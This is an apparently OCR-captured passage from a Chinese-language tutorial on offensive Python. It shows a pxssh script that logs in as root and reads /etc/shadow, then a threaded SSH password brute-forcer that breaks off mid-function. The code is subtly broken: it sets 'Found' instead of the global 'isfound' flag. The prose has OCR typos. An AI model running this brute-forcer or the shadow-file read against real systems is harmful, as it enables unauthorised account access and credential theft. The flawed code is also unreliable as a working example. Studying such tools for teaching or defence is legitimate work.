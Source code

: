 ```python
from pexpect import pxssh


def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)


def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        return s
    except:
        print('[-] error connecting')
        exit(0)


s = connect('127.0.0.1', 'root', 'toor')
send_command(s, 'cat /etc/shadow | grep root')
```


脚本只要再做些小的修改就能是脚本自动执行暴力破解SSH口令的任务。

除了加一些参数解析代码来读取主机名、用户名和存有待尝试的密码的文件外，我们只需要对connect()函数稍作修改。
    如果login()函数执行成功，并且没有抛出异常，我们将打印一个消息，表明密码已被找到，并把表示密码一杯找到的全局布尔值设为True。
    否则，我们将不过该异常，如果异常显示密码被拒绝，我们知道这个密码不对，让函数返回即可。
    但是，如果异常显示socket为"read_nonblocking"，可能是SSH服务器被大量的连接刷爆了，可以稍等一会用相同的密码再试一次。
    此外，如果该异常显示pxssh命令提示符提取困难，也应该等一会，然后再让它试一次。

在connect()函数的参数里有一个布尔量release。
    由于connect()可以递归的调用，我们必须让只有不是有connect()递归调用的connect()函数才能够释放connect_lock信号。

```python
from pexpect import pxssh
import optparse
import time
from threading import *

maxconnections = 5
connectionlock = BoundedSemaphore(value=maxconnections)

isfound = False
fails = 0


def connect(host, user, password, release):
    global isfound
    global fails

    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print('[+] Password Found: ' + password)
        Found = True
    except Exception as e:
        if 'read_nonblocking' in str(e):
            fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif 'synchronize with original prompt' in str(e):
            time.sleep(1)
            connect(host, user, password, False)
```